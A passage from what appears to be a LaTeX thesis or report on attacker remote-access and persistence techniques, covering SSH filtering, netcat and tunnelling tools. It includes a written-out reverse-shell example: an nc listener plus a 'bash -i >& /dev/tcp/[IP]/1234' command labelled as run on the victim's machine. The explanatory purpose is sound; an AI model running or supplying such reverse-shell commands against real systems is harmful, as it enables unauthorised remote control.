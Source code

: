 \begin{itemize}
Finally, SSH connections from the Internet to exposed or internal servers are often filtered or dropped by firewalls, as these connections should be only made from the internal network.

\item \textbf{Netcat or \texttt{nc}}: netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP. It is frequently used by attackers when setting reverse shells, which are shell sessions with their input and output redirected to a network connection so that it can be remotely managed, like the following example:

\vspace{7pt}
\begin{spverbatim}
### Netcat example: (1)setting a listener, (2)starting a remote connection ###
> nc -lvp 1234   # listener on attacker's server (port 1234)
> bash -i >& /dev/tcp/[IP]/1234 0>&1   # command on victim's machine   
\end{spverbatim}

\pagebreak
Although \texttt{netcat} or "\texttt{nc}" have some deprecated options, like the \texttt{-e} argument to execute the connection's input, there are other projects like "\texttt{ncat}", which is developed by the \textit{Nmap Project}, that work similar to \texttt{netcat}, but that also include missing \texttt{netcat} arguments, and are used as an alternative to this tool. 

\item \textbf{HTTPS, DNS or ICMP tunnels, and connection though proxies} with tools like \textit{Mistica}, explained in the following section \ref{ssec:persistOthers}.
\end{itemize}
